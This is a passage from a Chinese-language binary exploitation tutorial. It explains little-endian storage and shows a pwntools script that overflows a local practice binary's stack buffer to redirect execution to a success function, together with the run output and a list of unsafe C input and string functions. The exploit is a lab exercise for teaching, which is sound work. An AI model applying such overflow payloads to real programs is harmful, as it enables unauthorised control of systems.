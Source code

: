 但是需要注意的是，由于在计算机内存中，对应的每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B的存储是如下结构

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将\x3b之类的作为一个字符输入进去。那么此时我们就需要使用一波pwntools了(关于如何安装以及基本用法，请自行github)，这里利用pwntools的代码如下：

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
print p32(success_addr)
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```

执行一波代码，可以得到

```shell
➜  stack-example python exp.py
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```

可以看到我们确实已经执行success函数。

## 小总结

上面的示例其实也展示了栈溢出中比较重要的几个步骤:

### 寻找危险函数

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。

常见的危险函数如下

-   输入
    -   gets，直接读取一行，忽略'\x00'
    -   scanf
    -   vscanf
-   输出
    -   sprintf
-   字符串
    -   strcpy，字符串复制，遇到'\x00'停止
    -   strcat，字符串拼接，遇到'\x00'停止
    -   bcopy
